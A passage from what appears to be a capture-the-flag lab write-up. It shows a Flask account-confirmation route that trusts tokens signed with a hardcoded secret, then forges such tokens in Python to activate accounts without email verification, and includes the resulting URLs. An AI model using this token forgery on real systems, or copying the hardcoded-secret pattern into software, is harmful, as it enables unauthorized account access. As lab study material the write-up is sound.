 Go back to the source code
We need to use `URLSafeSerializer` to create a code from the user and password, which can then be sent via GET or POST to `/confirm-account`
```
@blueprint.route('/confirm_account/<secretstring>', methods=['GET', 'POST'])
def confirm_account(secretstring):
    s = URLSafeSerializer('serliaizer_code')
    username, email = s.loads(secretstring)

    user = Users.query.filter_by(username=username).first()
    user.account_status = True
    db.session.add(user)
    db.session.commit()

    #return redirect(url_for("authentication_blueprint.login", msg="Your account was confirmed succsessfully"))  
    return render_template('accounts/login.html',
                        msg='Account confirmed successfully.',
                        form=LoginForm())
```

We created a user `wither` with password `wither123` so we can calculate the code
```
┌──(wither㉿localhost)-[~/Templates/htb-labs/AWS]
└─$ python3 -q               
>>> from itsdangerous import URLSafeSerializer
>>> URLSafeSerializer('serliaizer_code').dumps(["rebirth", "rebirth"])
'WyJyZWJpcnRoIiwicmViaXJ0aCJd.epZnR2ItfXEXzMSs3LvypZlSI-I'
>>> from itsdangerous import URLSafeSerializer
>>> URLSafeSerializer('serliaizer_code').dumps(["tick", "tick"])
'WyJ0aWNrIiwidGljayJd.dV3d09nAN4yo6CDLXPuPejEQSD8'
```

Sending it to `/confirm-account `will return that the account is confirmed
`http://company-support.amzcorp.local/confirm_account/WyJyZWJpcnRoIiwicmViaXJ0aCJd.epZnR2ItfXEXzMSs3LvypZlSI-I`
```
http://company-support.amzcorp.local/confirm_account/WyJ0aWNrIiwidGljayJd.dV3d09nAN4yo6CDLXPuPejEQSD8
```
